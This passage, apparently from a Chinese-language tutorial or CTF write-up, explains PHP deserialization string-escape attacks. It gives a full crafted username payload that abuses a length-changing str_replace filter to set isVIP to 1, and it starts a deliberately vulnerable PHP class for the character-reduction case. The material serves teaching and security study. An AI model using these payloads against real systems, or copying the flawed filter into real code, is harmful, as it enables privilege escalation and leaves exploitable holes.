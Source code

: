 这个时候传入的admin就是可控变量

定一个目标，让`isVIP = 1`

那就是

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} // 现在的

";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //要实现的

```

字符串的长度为47，即我们需要逃逸的字符串长度，我们需要传入`admin * 47`从而replace后，会多出47个字符

如果我们传入

```
adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}
```





```php

O:4:"user":3:{s:8:"username";s:282:"adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} // 未替换

O:4:"user":3:{s:8:"username";s:282:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}//替换后

```

这时，由于`s:282:`到最后一个`hacker`即截止（47个hacker，共282个字符）

后面的`s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}`将会被识别为序列化的结构

因为`O:4:"user":3:`只会识别三个属性，多余的`";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}`将会被抛弃，从而成功反序列化为`isVIP=1`



### 字符减少

和上面的原理类似

这里把admin替换为hack,替换后字符减少

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
```
